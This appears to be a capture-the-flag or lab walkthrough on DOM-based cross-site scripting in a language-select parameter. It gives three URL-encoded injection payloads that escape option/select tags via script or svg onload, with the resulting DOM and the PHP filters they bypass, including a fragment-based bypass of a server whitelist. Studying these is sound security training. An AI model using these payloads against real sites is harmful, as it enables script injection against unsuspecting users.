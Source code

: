 ##### Example 1:

Payload:
```
?default=%3C/option%3E%3Cscript%3Ealert(1)%3C/script%3E
```

DOM:
```html
<option value="%3C/option%3E%3Cscript%3Ealert(1)%3C/script%3E"></option><script>alert(1)</script>
```

##### Example 2:

Payload:
```
?default=%3C/option%3E%3C/select%3E%3Csvg%0Conload=alert(1)%3E
```

DOM:
```html
<option value="%3C/option%3E%3C/select%3E%3Csvg%0Conload=alert(1)%3E"></option></select><svg onload="alert(1)">
```

PHP code:
```php
if (stripos ($_GET['default'], "<script") !== false) {
	header("Location: index.php");
	exit;
}
```

##### Example 3:

Payload - URL components after `#` will not be delivered to the server:
```
?default=English#%3C/option%3E%3C/select%3E%3Csvg%0Conload=alert(1)%3E
```

DOM:
```html
<option value="English#%3C/option%3E%3C/select%3E%3Csvg%0Conload=alert(1)%3E">English#</option></select><svg onload="alert(1)">
```

Only specific values are allowed in the `$_GET['default']` variable:
```php
switch ($_GET['default']) {
	case "French":
	case "English":
	case "German":
	case "Spanish":
		break;
	default:
		header("Location: index.php");
		exit;
}
```
